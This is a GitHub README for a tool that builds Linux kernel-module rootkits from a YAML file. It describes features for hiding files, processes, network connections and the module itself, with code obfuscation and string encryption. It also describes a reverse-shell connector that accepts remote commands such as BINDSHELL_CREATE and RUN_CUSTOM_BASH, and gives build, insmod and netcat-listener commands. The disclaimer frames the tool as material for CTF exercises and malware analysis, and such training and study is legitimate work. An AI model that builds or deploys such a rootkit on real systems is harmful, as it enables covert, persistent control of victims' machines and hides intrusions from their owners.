 # 1337kit - LKM Rootkit Builder

![1337kit](images/1337kit.png)

## About project

1337kit is 64-bit LKM Rootkit builder based on yaml prescription

Fully tested on: Linux 5.11.0-34-generic 20.04.1-Ubuntu x86_64 x86_64 x86_64 GNU/Linux

### DISCLAIMER: FOR EDUCATIONAL AND INFORMATIONAL PURPOSES ONLY

This project is for malware analysts and for creator of CTF or cyber security exercises, with this builder you can build your custom rootkit for your exercise

**I do not take any responsibility for usage of this project**

### Rootkit Features

* RevShell based connector
* Hiding dents (files, files prefixes, process ids)
* Hiding connections based on Ports in TCP Connection (IPv4 and IPv6)
* Hiding connections based on IP in TCP Connection (IPv4)
* Hiding connections based on Ports in UDP Connection (IPv4 and IPv6)
* Hiding connections based on IP in UDP Connection (IPv4)
* Spawning scripts to user-space
* Hiding module from module list

### Builder Features

* Files and functions obfuscation
* Strings encryption
* Verbose building

## Installation

Builder requirements:

```sh
$ pip3 install -r requirements.txt
```
Install requirements for building LKM:

```sh
sudo apt-get install build-essential linux-headers-$(uname -r)
```
## Usage

You have to create your yaml prescription for custom rootkit,
Example of full prescription (every option can be omitted):

```yaml
hideme: true
connector:
    ip: "127.0.0.1"
    port: "8080"
hide_dent: # Here you can put all your files, directories and process id you want to hide from user
    - "91746"
    - "1337test_"
hide_tcp_port:
    - "8080"
    - "1337"
hide_tcp_ip:
    - "127.0.0.1"
    - "8.8.8.8"
hide_udp_port:
    - "8080"
    - "1337"
hide_udp_ip:
    - "127.0.0.1"
    - "8.8.8.8"
shells:
    - "sleep 1000"
```

After you create your yaml just run the builder.py

```sh
$ python3 builder.py --help
usage: builder.py [-h] -c CONFIG [-v] [-o] [-s]

Generate rootkit from yaml prescription

optional arguments:
  -h, --help            show this help message and exit
  -c CONFIG, --config CONFIG
                        Yaml prescription file
  -v, --verbose         Debug Mode
  -o, --obfuscate_files
                        Enable rootkit symbols obfuscation
  -s, --obfuscate_strings
                        Enable rootkit strings obfuscation
```

![builder](images/builder.png)

And rootkit will be created.

another way to execute your hiding or shell script is connector, if you enable your connector, rev-sell connection is created to your defined IP and Port, after this it will try open connection every x second. After connection is opened multiple commands can be send:

* HIDEME
* SHOWME
* HIDE_DENT
* SHOW_HIDDEN_DENT
* HIDE_TCP_PORT
* SHOW_HIDDEN_TCP_PORT
* HIDE_TCP_IP
* SHOW_HIDDEN_TCP_IP
* HIDE_UDP_PORT
* SHOW_HIDDEN_UDP_PORT
* HIDE_UDP_IP
* SHOW_HIDDEN_UDP_IP
* BINDSHELL_CREATE
* RUN_CUSTOM_BASH

## Additional Information

tcp_seq_show.c file in hooker is pretty much same as udp_seq_show, but i split it if anyone need some own modification for either of protocols

## Future Features

* TCP and UDP IPv6 hiding
* AES Encryption support

### Examples

```sh
$ python3 builder.py --config testfiles/config.yml
$ sudo insmod project.ko
$ nc -lvnp 1337
 Listening on 0.0.0.0 8080
 Connection received on 127.0.0.1 39040
 RUN_CUSTOM_BASH sleep 1000
```

![example](images/example.jpeg)
